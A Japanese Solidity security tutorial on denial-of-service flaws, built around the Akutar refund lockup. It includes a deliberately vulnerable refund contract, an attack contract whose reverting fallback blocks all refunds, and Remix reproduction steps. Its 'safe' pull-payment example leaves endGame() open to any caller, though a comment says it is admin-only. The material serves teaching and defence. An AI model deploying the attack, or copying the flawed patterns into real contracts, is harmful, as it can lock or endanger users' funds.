





# WTF Solidity スマートコントラクトセキュリティ: S09. サービス拒否攻撃（DoS攻撃）

最近、Solidityを再学習し、詳細を確認しながら「WTF Solidity スマートコントラクトセキュリティ」を作成しています。これは初心者向けのチュートリアルで、毎週1-3回更新予定です。

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

コミュニティ: [Discord](https://discord.gg/5akcruXrsk)｜[WeChatグループ](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[公式サイト wtf.academy](https://wtf.academy)

すべてのコードとチュートリアルはGitHubでオープンソース化されています: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

この講義では、スマートコントラクトのサービス拒否攻撃（Denial of Service, DoS）脆弱性について紹介し、予防方法を説明します。NFTプロジェクトAkutarはDoS脆弱性により11,539 ETH（当時の価値3,400万ドル）を失いました。

## DoS攻撃について

Web2において、サービス拒否攻撃（DoS攻撃）とは、サーバーに大量の不正な情報や妨害情報を送信することで、サーバーが正常なユーザーにサービスを提供できなくなる現象を指します。Web3では、脆弱性を悪用してスマートコントラクトが正常にサービスを提供できなくする攻撃を指します。

2022年4月、AkutarというNFTプロジェクトが[ダッチオークション](https://github.com/AmazingAng/WTF-Solidity/tree/main/35_DutchAuction)でパブリック販売を行い、11,539.5 ETHの資金調達に成功しました。コミュニティパス保有者には0.5 ETHの返金が予定されていましたが、返金処理時にスマートコントラクトが正常に動作せず、すべての資金がコントラクト内に永久に閉じ込められました。これはDoS脆弱性によるものでした。



## 脆弱性の例

以下は、Akutarコントラクトを簡略化した`DoSGame`コントラクトです。このコントラクトのロジックは非常にシンプルです：ゲーム開始時にプレイヤーが`deposit()`関数を呼び出してコントラクトに資金を預け、コントラクトはすべてのプレイヤーのアドレスと対応する預金額を記録します。ゲーム終了時に`refund()`関数が呼び出され、すべてのプレイヤーにETHが順次返金されます。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.21;

// DoS脆弱性を持つゲームコントラクト
// プレイヤーが資金を預け、ゲーム終了後にrefundで返金される
contract DoSGame {
    bool public refundFinished;
    mapping(address => uint256) public balanceOf;
    address[] public players;

    // すべてのプレイヤーがETHをコントラクトに預ける
    function deposit() external payable {
        require(!refundFinished, "Game Over");
        require(msg.value > 0, "Please donate ETH");
        // 預金額を記録
        balanceOf[msg.sender] = msg.value;
        // プレイヤーアドレスを記録
        players.push(msg.sender);
    }

    // ゲーム終了、返金開始、すべてのプレイヤーが順次返金を受ける
    function refund() external {
        require(!refundFinished, "Game Over");
        uint256 pLength = players.length;
        // ループですべてのプレイヤーに返金
        for(uint256 i; i < pLength; i++){
            address player = players[i];
            uint256 refundETH = balanceOf[player];
            (bool success, ) = player.call{value: refundETH}("");
            require(success, "Refund Fail!");
            balanceOf[player] = 0;
        }
        refundFinished = true;
    }

    function balance() external view returns(uint256){
        return address(this).balance;
    }
}
```

この脆弱性は、`refund()`関数がループで返金を行う際に`call`関数を使用していることにあります。これにより、対象アドレスのコールバック関数がアクティブになります。対象アドレスが悪意のあるコントラクトで、コールバック関数に悪意のあるロジックが含まれている場合、返金が正常に実行されません。

```solidity
(bool success, ) = player.call{value: refundETH}("");
```

以下は攻撃コントラクトです。`attack()`関数で`DoSGame`コントラクトの`deposit()`を呼び出して預金しゲームに参加します。`fallback()`コールバック関数は、このコントラクトにETHを送信するすべてのトランザクションを拒否し、`DoSGame`コントラクトのDoS脆弱性を攻撃します。すべての返金が正常に実行されず、資金がコントラクト内にロックされます。これはAkutarコントラクトの1万枚以上のETHと同じ状況です。

```solidity
contract Attack {
    // 返金時にDoS攻撃を実行
    fallback() external payable{
        revert("DoS Attack!");
    }

    // DoSゲームに参加して預金
    function attack(address gameAddr) external payable {
        DoSGame dos = DoSGame(gameAddr);
        dos.deposit{value: msg.value}();
    }
}
```

## `Remix`での再現

**1.** `DoSGame`コントラクトをデプロイします。
**2.** `DoSGame`コントラクトの`deposit()`を呼び出し、預金してゲームに参加します。

**3.** この時点で、ゲーム終了時に`refund()`を呼び出せば正常に返金されます。

**4.** `DoSGame`コントラクトを再デプロイし、`Attack`コントラクトもデプロイします。
**5.** `Attack`コントラクトの`attack()`を呼び出し、預金してゲームに参加します。

**6.** `DoSGame`コントラクトの`refund()`を呼び出して返金しようとすると、正常に実行されないことがわかります。攻撃成功です。


## 予防方法

多くのロジックエラーがスマートコントラクトのサービス拒否を引き起こす可能性があるため、開発者はスマートコントラクトを作成する際に細心の注意を払う必要があります。以下は特に注意すべき点です：

1. **外部コール失敗の適切な処理**: 外部コントラクトの関数呼び出し（例：`call`）が失敗しても重要な機能が停止しないようにします。上記の脆弱性コントラクトから`require(success, "Refund Fail!");`を削除することで、単一アドレスでの返金失敗時でも返金処理を継続できます。

2. **予期しないコントラクト自己破壊の防止**: コントラクトが予期せず自己破壊されないようにします。

3. **無限ループの回避**: コントラクトが無限ループに陥らないようにします。

4. **require文とassert文の適切な設定**: `require`と`assert`のパラメータを正しく設定します。

5. **プルペイメントパターンの使用**: 返金時は、コントラクトが一括送信（push）するのではなく、ユーザーがコントラクトから自分で引き出す（pull）方式を採用します。

6. **コールバック関数の安全性**: コールバック関数が正常なコントラクトの動作に影響しないようにします。

7. **参加者不在時の継続性**: コントラクトの参加者（例：`owner`）が永続的に不在でも、コントラクトの主要機能が正常に動作するようにします。

## プルペイメントパターンの実装例

以下は、プルペイメントパターンを使用してDoS攻撃を防ぐ改良版のコントラクト例です：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.21;

// プルペイメントパターンを使用した安全なゲームコントラクト
contract SafeGame {
    bool public gameFinished;
    mapping(address => uint256) public balanceOf;
    mapping(address => bool) public refunded;
    address[] public players;

    // プレイヤーがETHを預ける
    function deposit() external payable {
        require(!gameFinished, "Game Over");
        require(msg.value > 0, "Please donate ETH");

        if(balanceOf[msg.sender] == 0) {
            players.push(msg.sender);
        }
        balanceOf[msg.sender] += msg.value;
    }

    // ゲーム終了を宣言（管理者のみ）
    function endGame() external {
        gameFinished = true;
    }

    // プレイヤーが個別に返金を請求（プルペイメント）
    function claimRefund() external {
        require(gameFinished, "Game not finished");
        require(balanceOf[msg.sender] > 0, "No balance to refund");
        require(!refunded[msg.sender], "Already refunded");

        uint256 refundAmount = balanceOf[msg.sender];
        refunded[msg.sender] = true;
        balanceOf[msg.sender] = 0;

        (bool success, ) = msg.sender.call{value: refundAmount}("");
        if (!success) {
            // 送金失敗の場合、状態を戻す
            refunded[msg.sender] = false;
            balanceOf[msg.sender] = refundAmount;
            revert("Refund failed");
        }
    }

    function balance() external view returns(uint256){
        return address(this).balance;
    }
}
```

この改良版では、各プレイヤーが個別に`claimRefund()`を呼び出して返金を請求するため、一人のプレイヤーの返金失敗が他のプレイヤーに影響することがありません。

## まとめ

この講義では、スマートコントラクトのサービス拒否攻撃脆弱性について紹介しました。Akutarプロジェクトはこの脆弱性により1万枚以上のETHを失いました。多くのロジックエラーがDoS攻撃を引き起こす可能性があるため、開発者はスマートコントラクトを作成する際に細心の注意を払う必要があります。特に、返金処理ではユーザーが自分で引き出す方式を採用し、コントラクトが一括送信する方式を避けることが重要です。